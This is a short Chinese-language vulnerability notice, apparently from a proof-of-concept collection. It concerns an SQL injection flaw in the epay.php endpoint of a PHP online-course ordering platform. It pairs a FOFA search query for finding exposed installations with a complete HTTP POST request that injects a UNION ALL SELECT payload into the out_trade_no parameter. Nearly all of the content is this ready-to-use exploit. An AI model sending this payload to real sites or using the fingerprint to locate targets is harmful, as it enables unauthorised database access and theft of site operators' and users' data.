 **fofa**

body="/apisub.php"

**一、漏洞简述**

29网课交单平台是基于PHP开发，为用户提供了高效、稳定、安全的在线学习和交易环境。作为知识付费系统的重要组成部分，充分利用了互联网的优势，为用户提供了便捷的支付方式、高效的课程管理以及优质的用户体验。随着知识付费模式的普及和发展，该平台将为更多用户和教育机构提供优质的服务。其接口epay.php存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

**二、漏洞检测poc**

```yaml

POST /epay/epay.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 106

out_trade_no=' UNION ALL SELECT 1,CONCAT(IFNULL(CAST(md5(123456) AS CHAR),0x20)),1,1,1,1,1,1,1,1,1,1,1-- -
```

